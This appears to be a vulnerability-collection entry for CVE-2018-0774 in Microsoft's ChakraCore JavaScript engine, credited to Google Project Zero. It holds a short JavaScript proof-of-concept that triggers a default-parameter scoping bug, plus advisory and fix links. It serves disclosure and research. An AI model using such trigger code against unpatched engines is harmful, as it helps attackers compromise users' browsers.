 # CVE-2018-0774

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
(function func(arg = function () {
    print(func);  // SetHasOwnLocalInClosure should be called for the param scope in the PostVisitFunction function.
}()) {
    print(func);
    function func() {

    }
})();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0774)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1411)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/5c26851a298567253bc978cf83191d5cccadafd7)